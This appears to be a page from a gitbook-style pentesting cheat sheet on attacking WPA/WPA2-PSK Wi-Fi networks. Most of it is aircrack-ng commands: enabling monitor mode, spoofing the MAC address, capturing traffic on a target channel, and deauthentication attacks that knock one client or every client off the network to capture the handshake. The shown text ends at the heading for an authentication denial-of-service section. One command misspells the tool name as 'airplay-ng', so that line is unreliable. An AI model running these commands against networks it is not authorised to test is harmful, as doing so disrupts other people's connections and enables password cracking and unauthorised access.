 # WPA/WPA2 PSK

##

![WPA2-PSK Message Exchange](../../.gitbook/assets/wpa2\_psk.png)

## Setup

```
sudo airmon-ng check kill
sudo airmon-ng
sudo airmon-ng start wlan0

# Change MAC
ifconfig wlan0mon down
macchanger -s wlan0mon
ifconfig wlan0mon up
```

To restart network services:

```
sudo airmon-ng stop wlan1mon
sudo service NetworkManager restart
```

Start capturing:

```
# 802.11.g is for 5GHz if you don't have the suitable hardwarte try to use --band ab
sudo airodump-ng -c <CH> --bssid <BSSID> [--band abg] --write <OUT_FILE> <IFACE>
```

## Handshake Capture (Clients needed)

### Deauth

Consist on deauthenticate a client in order to capture de re-authentication handshake.

```
aireplay-ng -0 10 -a <BSSID> -c <CLIENT> <IFACE>
```

### Deauth Global

The same term of deauthentication, but in that case using the brodcast MAC address in order to deauthenticate all clients.

```
airplay-ng -0 0 -e <ESSID> -c FF:FF:FF:FF:FF:FF <IFACE>
```

### Auth attack or Authentication DoS Mode
